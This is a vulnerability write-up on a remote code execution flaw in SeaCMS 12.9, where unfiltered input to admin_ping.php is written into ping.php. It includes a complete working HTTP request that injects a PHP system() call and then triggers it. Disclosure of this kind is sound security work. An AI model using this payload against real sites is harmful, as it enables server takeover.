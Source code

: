# Introduction

SeaCMS is a free, open-source website content management system written in PHP. The system is mainly designed to manage video-on-demand resources. **

SeaCMS 12.9 version has a remote code execution vulnerability. The vulnerability is caused by admin_ping.php directly splicing and writing the user input data into ping.php without processing it, which allows authenticated attackers to exploit the vulnerability to execute arbitrary commands and obtain system permissions. 

# Environment

[https://github.com/seacms-net/CMS/blob/master/SeaCMS_12.9_%E6%B5%B7%E6%B4%8BCMS%E5%AE%89%E8%A3%85%E5%8C%85.zip](https://github.com/seacms-net/CMS/blob/master/SeaCMS_12.9_%E6%B5%B7%E6%B4%8BCMS%E5%AE%89%E8%A3%85%E5%8C%85.zip)

# Analysis

![](https://cdn.nlark.com/yuque/0/2024/png/22914233/1718258413454-4421ea91-f5fa-4283-acc9-74a0d98d502e.png)

The weburl and token passed in to admin_ping.php are not filtered, but directly concatenated and written into the admin_ping.php file, resulting in arbitrary code execution.

# Verify

![](https://cdn.nlark.com/yuque/0/2024/png/22914233/1718258573754-e21fcc4b-470b-41fe-acc0-25afd3f7ff5a.png)

```http
POST /xotry/admin_ping.php?action=set HTTP/1.1
Host: 192.168.126.128:8082
Cookie: PHPSESSID=8iuqqnar4ucddeqlp52sdmpbov
Content-Type: application/x-www-form-urlencoded
Content-Length: 56

weburl=1";system('id');//&token=1
```

![](https://cdn.nlark.com/yuque/0/2024/png/22914233/1718258589599-76d3041f-c5b2-4606-844c-63f355eff0d0.png)

Access /data/admin/ping.php and execute the command successfully
